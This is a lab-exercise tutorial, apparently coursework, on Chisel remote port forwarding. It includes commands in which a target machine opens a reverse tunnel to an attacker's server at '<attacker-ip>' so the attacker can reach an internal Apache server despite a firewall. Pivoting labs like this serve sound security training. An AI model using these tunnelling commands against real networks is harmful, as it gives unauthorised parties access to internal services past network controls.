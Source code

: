 
## Remote Port Forwarding & Exercises
In Chisel, remote port forwarding is a technique where the target, or Chisel client, creates a tunnel that allows the attacker, or Chisel server, to open a port on their own machine. Traffic sent to this port on the attacker is forwarded through the tunnel to a service running on the target machine. The client/server is done in reverse of that in local port forwarding.

```bash
# Starting Chisel Server from Attacker
chisel server -p 8080 --reverse 

# Starting Chisel Client from Target
chisel client http://<server-ip>:8080 R:8000:localhost:80 
```

Syntax Breakdown for Remote Port Forwarding:
- `--reverse` enables the server to allow remote clients to bind ports on the server. 
- `http://<server-ip>:8080` tells the client to connect outbound to the Chisel server over HTTP on port 8080
- `R:8000:localhost:80`
    - `R:` tells the client to set up a reverse tunnel
    - `8000` port open on the server
    - `localhost:80` the client's local service, like an internal webserver (e.g., Apache), that the server will be tunneled to

Remote port forwarding will be successful because the target initiates the connection to the tunnel outward to the attacker in our setup. We will go over three examples to gain a better understanding of using remote port forwarding in Chisel. 

### 1. Bypassing Firewall Restrictions to Access Apache Server
*Scenario: An external machine wants to gain access to a web server running on an internal machine. We will be using Chisel to tunnel HTTP traffic from a firewalled host.*

**Attacker** | Start the Chisel Server on a **Kali root-user terminal**: 
```bash
chisel server -p 8080 --reverse 
```
**Target** | Start the Chisel Client on a **ubuntu_target** terminal: 
```bash
chisel client -v http://<attacker-ip>:8080 R:8081:localhost:80 
```

**Attacker** | Open a new terminal as a **Kali** root-user and issue this command: 
```bash
curl http://localhost:8081 
```

The attacker successfully gains access to **ubuntu_target's** Apache server running on `localhost:80`, even behind firewall restrictions. 

> ✦ SS2: Show that Kali has successfully used Chisel to access the `apache2` server on **ubuntu_target**: [insert screenshot]

To stop the Chisel Client on **ubuntu_target** or the Chisel Server on **Kali**, use `Ctrl + C`.
